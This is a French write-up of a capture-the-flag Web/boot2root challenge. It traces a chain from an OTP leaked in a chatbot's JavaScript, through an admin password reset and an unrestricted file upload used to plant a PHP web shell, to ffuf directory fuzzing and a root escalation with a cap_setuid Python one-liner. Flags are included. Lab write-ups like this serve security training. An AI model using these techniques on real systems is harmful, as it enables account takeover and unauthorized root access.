










## Informations

- **Catégorie :** Web & boot2root
- **Points :** 200 (dynamiques, 200 → 100)
- **Créateur :** KodjoDoDjango
- **Auteur du write-up :** 3ch0
- **URL cible :** `https://boot2root.ctf.esig.tg/`

|Flag|Valeur|
|---|---|
|**User**|`CTF{w3b_sh3ll_2_3nv_d1sc0v3ry}`|
|**Root**|`CTF{r00t_0r_shh_4cc3ss_g0d_m0d3}`|
|**Final**|`EthACTF{w3b_sh3ll_2_3nv_d1sc0v3ry_r00t_0r_shh_4cc3ss_g0d_m0d3}`|

---

## 1. Reconnaissance

En accédant à la plateforme, on tombe sur une page de connexion. Mais c'est en réalité un leurre : la vraie porte d'entrée se trouve ailleurs.



En examinant le code source de la page, on repère la portion de JavaScript suivante :

```javascript
setTimeout(() => {
  let lower = text.toLowerCase();
  let botMsg = document.createElement('div');
  botMsg.className = 'msg bot';
  if (lower.includes("mot de passe") || lower.includes("oubli") || lower.includes("reset")) {
    botMsg.textContent = "Si vous avez oublié votre mot de passe, indiquez-moi votre adresse e-mail d'administration (ex : admin@target.ctf).";
  } else if (lower.includes("admin@target.ctf")) {
    botMsg.innerHTML = "Un code de vérification temporaire a été généré pour ce compte. <a href='reset.php?email=admin@target.ctf&otp=849201'>Cliquez ici pour poursuivre la réinitialisation</a>.";
  } else {
    botMsg.textContent = "Je n'ai pas compris votre demande. Essayez de reformuler, par exemple : « mot de passe oublié ».";
  }
  chat.appendChild(botMsg);
  chat.scrollTop = chat.scrollHeight;
}, 550);
```

Analyse du comportement : lorsqu'un utilisateur écrit « mot de passe oublié », le bot demande l'e-mail d'administration. Si on lui fournit `admin@target.ctf`, il révèle directement dans le HTML le lien de réinitialisation **avec le code OTP en clair** (`otp=849201`).

> **Vulnérabilité : OTP leak.** Le code de vérification à usage unique est exposé côté client au lieu d'être envoyé par un canal sécurisé.

---

## 2. Réinitialisation du mot de passe (OTP leak)

On exploite la fuite en collant directement l'URL de réinitialisation dans le navigateur :

```http
https://boot2root.ctf.esig.tg/reset.php?email=admin@target.ctf&otp=849201
```



On saisit un nouveau mot de passe, ce qui nous donne l'accès au dashboard administrateur.



---

## 3. Accès initial — Unrestricted File Upload

Une fois connecté au dashboard, on remarque une fonctionnalité d'upload de fichiers. On tente d'uploader un fichier `.php` malveillant.

L'application ne filtre pas les extensions : elle souffre d'une vulnérabilité **Unrestricted File Upload** qui autorise l'envoi de fichiers `.php`.



En tentant d'accéder au fichier via `uploads/nom_fichier.php`, on obtient un **404 Not Found** — le fichier est donc stocké dans un autre répertoire.



### Fuzzing des répertoires avec ffuf

On énumère les répertoires accessibles pour retrouver l'emplacement réel des fichiers uploadés :

```bash
ffuf -u https://boot2root.ctf.esig.tg/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt \
  -e .php,.txt,.html,.bak -mc all -fc 404,403 -t 40
```



En plus du répertoire `uploads`, on découvre un répertoire `filemanager` qui contient probablement nos fichiers uploadés.

> **Note :** pour disposer d'un web shell plus interactif, j'ai utilisé **p0wny-shell**, disponible [ici](https://github.com/flozz/p0wny-shell/blob/master/shell.php).

On accède alors au web shell via :

```http
https://boot2root.ctf.esig.tg/filemanager/p0wny_shell.php
```



L'accès au shell est confirmé.

### Récupération du user flag

```bash
find / -name user.txt 2>/dev/null
```

Résultat :

```text
/var/www/user.txt
```

```bash
cat /var/www/user.txt
```



```text
CTF{w3b_sh3ll_2_3nv_d1sc0v3ry}
```

---

## 4. Escalade de privilèges

En listant le contenu du répertoire racine avec `ls -al`, on repère un fichier `entrypoint.sh`.



Contenu du fichier :

```bash
#!/bin/bash
# Réapplique la capability privesc au démarrage (belt-and-suspenders vs BuildKit)
setcap cap_setuid+ep /usr/bin/python3.10 2>/dev/null || true
exec /usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
```

On constate que la capability `cap_setuid+ep` est appliquée sur `/usr/bin/python3.10`. D'après [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities), cette capability permet à Python de changer d'UID et donc d'escalader vers root.

### Exploitation et lecture du root flag

```bash
/usr/bin/python3.10 -c "import os; os.setuid(0); os.system('cat /root/flag.txt')"
```

Root flag :

```text
CTF{r00t_0r_shh_4cc3ss_g0d_m0d3}
```



---

## 5. Flag final

En combinant les deux flags :

```text
EthACTF{w3b_sh3ll_2_3nv_d1sc0v3ry_r00t_0r_shh_4cc3ss_g0d_m0d3}
```

---

## Récapitulatif de la chaîne d'exploitation

1. **Reconnaissance** → page de login = leurre, code JS du chatbot exposé.
2. **OTP leak** → le code de réinitialisation est révélé côté client → prise de contrôle du compte `admin@target.ctf`.
3. **Unrestricted File Upload** → upload d'un web shell PHP.
4. **Fuzzing (ffuf)** → découverte du répertoire `filemanager` hébergeant le shell → RCE.
5. **Privesc** → capability `cap_setuid+ep` sur `python3.10` (GTFOBins) → root.

---

_**— 3ch0**_
